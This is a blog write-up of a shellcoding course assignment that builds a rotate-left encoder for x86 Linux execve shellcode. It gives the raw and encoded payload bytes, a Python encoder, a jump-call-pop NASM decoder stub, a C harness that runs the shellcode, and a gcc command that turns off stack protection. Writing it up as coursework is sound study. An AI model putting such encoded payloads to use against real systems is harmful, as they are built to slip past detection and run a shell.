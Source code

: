 ```yaml
---
title: SLAE32 Assignment 4 -- Rotation Encoder
date: 2019-9-15
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - rotate
  - Encoder
  - Decoder
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcoding
  - Shellcode
--- 
```


For my fourth assignment in the SLAE32 course, I created a custom Rotation Encoder. 
How this works is to encode the payload, it rotates every bit to the left by one. If the greatest bit (valued 128) falls off the left, it wraps around to the lowest bit (valued 1).
Example:

![](/assests/images/rotateLeft.png)

To decode, all the bits are rotated to the right by one. If there is a low bit, it is moved to the highest bit.

0 0 0 1 0 1 0 1

1 0 0 0 1 0 1 0 

The payload used for this example is the `execve` shellcode provided in the SLAE course.

To quickly grab the hex from shellcode, I used the method shown in the SLAE course. 
To make it easier, I added it to a shellscript.
```bash
#!/bin/bash
OBJFILE=$1
objdump -d $(pwd)/${1} | grep '[0-9a-f]:' | grep -v 'file'\
| cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' \
| sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s \
| sed 's/^/"/' | sed 's/$/"/g'
```
Grabbing the shellcode:
```bash
root@zed# ./objdump2hex.sh execve-stack 
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```
Perfect. Now we will need to encode this shellcode using the Python Encoder I created, "`rotateLeftEncoder.py`".
The new encoded shellcode is output in both the '\x' format and the '0x, ' format.
As you can see in the top section, all that needs to be done to change the shellcode payload is replace the string in the shellcode array.
```python
#!/usr/bin/python
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

encoded1 = ""
encoded2 = ""

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :
    if x > 127:
        x = x - 128             # Remove the left-most bit
        x = x << 1              # Shift to the left 1
        x += 1                  # Add 1, to complete the rotate
        encoded1 += '\\x'
        encoded1 += '%02x' %x   # Add the rotated left hex to string 
        encoded2 += '0x'
        encoded2 += '%02x,' %x  # Add the rotated left hex to string 
    else:
        encoded1 += '\\x'       # No leftmost bit, just rotate
        encoded1 += '%02x' %(x << 1)
        encoded2 += '0x'        # No leftmost bit, just rotate
        encoded2 += '%02x,' %(x << 1)
    
print encoded1
print encoded2
print 'Len: %d' % len(bytearray(shellcode))
```
Outputting our new, encoded shellcode:
```bash
root# python rotateLeftEncoder.py
Encoded shellcode ...
\x62\x81\xa0\xd0\x5e\x5e\xe6\xd0\xd0\x5e\xc4\xd2\xdc\x13\xc7\xa0\x13\xc5\xa6\x13\xc3\x61\x16\x9b\x01                   
0x62,0x81,0xa0,0xd0,0x5e,0x5e,0xe6,0xd0,0xd0,0x5e,0xc4,0xd2,0xdc,0x13,0xc7,0xa0,0x13,0xc5,0xa6,0x13,0xc3,0x61,0x16,0x9b,0x01,
Len: 25
```
Our encoded shellcode payload is 25 bytes. We will need to add a final byte to the end "\xff".
This byte will be used by our decoder to let it know it has reached the end of our payload.
We will copy the second output with the "0x, " format to our nasm program after appending the byte.

This assembly program will use the Jump-Call-Pop technique to save the memory location of our string to the stack and then pop that address into the ESI Register. 
Once in the ESI Register, we will decode our encoded shellcode byte by byte using the instructions `ror byte [esi], 1` (rotate to the right one bit, one byte at a time), and `inc esi`. If the decoded byte is `\xff` then we will jump to the shellcode using the instruction `je Shellcode`. 
If the byte is not `\xff` then the zero flag will not be set, and that jump will be ignored. 
The next instruction `jmp short decode` is an unconditional jump. We use this to create the loop to decode our shellcode.
```nasm
; Filename: rotateRightDecoder.nasm
; Author:  Bobby Cooke

global _start

section .text
_start:
        jmp short call_decoder

decoder:
        pop esi

decode:
        ror byte [esi], 1
        cmp byte [esi], 0xFF
        je Shellcode
        inc esi
        jmp short decode
        
call_decoder:
        call decoder
        Shellcode: db 0x62,0x81,0xa0,0xd0,0x5e,0x5e,0xe6,0xd0,0xd0,0x5e,0xc4,0xd2,0xdc,0x13,0xc7,0xa0,0x13,0xc5,0xa6,0x13,0xc3,0x61,0x16,0x9b,0x01,0xff
```
Now that both the decoder and encoder are created, the last thing to do is compile and test.

To compile my Assembly code I used the NASM Compiler with these commands. After creating the object file with NASM, I linked the object file using `ld`.
```bash
nasm -f elf32 rotateRightDecoder.nasm -o rotateRightDecoder.o
ld -o rotateRightDecoder rotateRightDecoder.o
```

I tested the shellcode using the C program shown in the SLAE course.
After extracting the shellcode using the above bash script, I added it to the C program as the `code[]` array.
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x0b\x5e\xd0\x0e\x80\x3e\xff\x74\x08\x46\xeb\xf6\xe8"
"\xf0\xff\xff\xff\x62\x81\xa0\xd0\x5e\x5e\xe6\xd0\xd0\x5e"
"\xc4\xd2\xdc\x13\xc7\xa0\x13\xc5\xa6\x13\xc3\x61\x16\x9b\x01\xff";
main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
To speed up compilation while developing my custom rotation encoder, I created a simple bash script to automate the process.
```bash
#!/bin/bash
SHELLCODE=$1
gcc -fno-stack-protector -z execstack -o shellcode $(pwd)/${SHELLCODE}
```
